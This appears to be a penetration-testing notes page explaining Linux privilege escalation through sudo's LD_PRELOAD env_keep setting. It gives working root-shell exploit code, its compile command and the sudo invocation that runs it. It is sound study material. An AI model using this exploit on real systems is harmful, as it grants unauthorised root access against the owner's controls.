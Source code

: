 # LD\_PRELOAD

LD\_PRELOAD is an environment variable which can be set to the path of a shared object (.so) file. When set, the shared object will be loaded before any others. By creating a custom shared object and creating an init() function, we can execute code as soon as the object is loaded.

## Limitations

LD\_PRELOAD will not work if the real user ID is different from the effective user ID. sudo must be configured to preserve the LD\_PRELOAD environment variable using the env\_keep option.

List the programs your user is allowed to run via sudo -l

{% hint style="info" %}
Note that the env\_keep option includes the LD\_PRELOAD environment variable.
{% endhint %}

![](../../../../.gitbook/assets/env1.png)

Create a file (preload.c) with the following contents:

`#include <stdio.h>`\
`#include <sys/types.h>`\
`#include <stdlib.h>`\
`void _init() {`\
`unsetenv("LD_PRELOAD");`\
`setresuid(0,0,0);`\
`system("/bin/bash -p");`\
`}`

Compile preload.c to preload.so:

`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c`

Run any allowed program using sudo, while setting the LD\_PRELOAD environment variable to the full path of the preload.so file:

`sudo LD_PRELOAD=/tmp/preload.so apache2`

![](../../../../.gitbook/assets/env2.png)
